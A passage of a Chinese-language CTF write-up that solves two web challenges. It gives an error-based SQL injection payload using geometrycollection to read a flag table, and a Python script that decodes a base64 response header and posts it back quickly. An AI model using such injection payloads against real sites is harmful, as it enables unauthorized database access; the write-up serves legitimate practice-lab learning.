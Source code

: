 

于是挑选一个后提交payload，得到flag，我擦？还是和上两关一样？？？！！

```
1' and geometrycollection((select * from(select * from(select flag from flag)a)b))%23
```



## 天下武功唯快不破

> 看看响应头

从题干信息中得知查看响应头 发现`FLAG:UDBTVF9USElTX1QwX0NINE5HRV9GTDRHOjh3bHVoNXFXeQ==` 拿去base64解码后得`P0ST_THIS_T0_CH4NGE_FL4G:hjlqfHs77`
打开页面显示的是

```
There is no martial art is indefectible, while the fastest speed is the only way for long success.
>>>>>>----You must do it as fast as you can!----<<<<<<
```



应该是将flag解码后作为内容部分，而key作为参数名，重新提交到这个页面，于是写了个Python得到flag

```python
#!/usr/bin/env python
# encoding: utf-8

"""

@author: iSky0t
@time: 2017/10/4 09:16
"""


import requests

class Main():
    for i in range(1,20):

        url = "http://ctf5.shiyanbar.com/web/10/10.php"
        req = requests.get(url)
        flag = req.headers['FLAG'].decode('base64').split(':')[1]
        print flag
        payload = {'key':flag}
        req = requests.post(url,data=payload)
        print req.text



if __name__ == '__main__':
    pass
```
